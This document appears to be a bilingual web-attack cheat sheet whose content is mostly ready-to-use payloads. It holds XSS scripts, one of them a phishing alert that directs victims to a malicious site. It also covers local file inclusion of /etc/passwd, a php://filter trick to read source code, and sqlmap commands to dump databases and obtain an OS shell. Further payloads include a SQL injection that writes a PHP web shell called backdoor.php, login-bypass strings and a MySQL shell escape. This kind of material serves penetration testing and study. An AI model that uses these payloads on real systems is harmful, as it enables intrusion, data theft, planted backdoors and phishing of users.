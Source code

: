 ### XSS

Alert em campo de texto:

    </textarea><script>alert('XSS');</script>

Alert simples:

    <script>alert('XSS');</script>

Phishing no alert:

    </textarea><script>alert('Atenção! Sua senha está prestes a expirar, portanto é obrigatória a renovação de senha para evitar problemas com a sua conta. Acesse http://sitemalicioso.net e renove agora mesmo sua senha!');</script>

### Local File Inclusion (LFI)

```
http://example.com/page=../../../../../../etc/passwd
```



### Bypassing php-execution

So if you have an LFI you can easily read `.txt`-files but not `.php` files. That is because they get executed by the webserver, since their file-ending says that it contains code. This can be bypassed by using a build-in php-filter.

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index
```

Here you use a php-filter to convert it all into base64. So in return you get the whole page base64 encoded. Now you only need to decode it. Save the base64-text into a file and then run:

```
base64 -d savefile.php
```

## SQL INJECTION

sqlmap crawl
```
sqlmap -u http://10.10.10.10 --crawl=1
```

sqlmap dump database
```
sqlmap -u http://10.10.10.10 --dbms=mysql --dump
```

sqlmap shell
```
sqlmap -u http://10.10.10.10 --dbms=mysql --os-shell
```

Upload php command injection file
```
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

Load file
```
union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
```

Bypasses
```
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
```

Execução de comando:

```
sudo mysql -uroot -p123456 -e '\! /bin/sh'
```
## Blind

- https://medium.com/@vikramroot/exploiting-time-based-sql-injections-data-exfiltration-791aa7f0ae87
- https://github.com/nvanheuverzwijn/curl-blind-sql-injection/blob/master/README.md
- https://medium.com/@tomnomnom/making-a-blind-sql-injection-a-little-less-blind-428dcb614ba8